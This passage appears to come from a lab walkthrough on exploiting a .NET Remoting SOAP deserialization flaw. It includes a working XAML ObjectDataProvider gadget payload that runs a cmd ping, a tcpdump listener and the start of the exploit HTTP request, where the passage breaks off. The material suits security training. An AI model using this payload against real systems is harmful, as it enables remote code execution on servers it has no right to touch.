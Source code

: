 

The .NET serialization protocol in this case does not verify the length of the command string, it will thus be possible to interfere with it after generating the payload. The payload is then copied to Burp with the following changes:

- As said before, Soap Body tags should be removed
- In order to have a valid soap message, a dummy SOAPAction header is required. This is related to SOAP and not related to this specific lab
- The content type should be text/xml like in every SOAP request
- If you are receiving an error stating "Requested service was not found", you might also need to clear some whitespaces / newlines



```xml
<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c ping 10.10.27.2&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```

Before sending the above request, use the following command to listen for ICMP requests/replies:

```bash
tcpdump -i any icmp
```



Request:

```xml
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1478

<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
```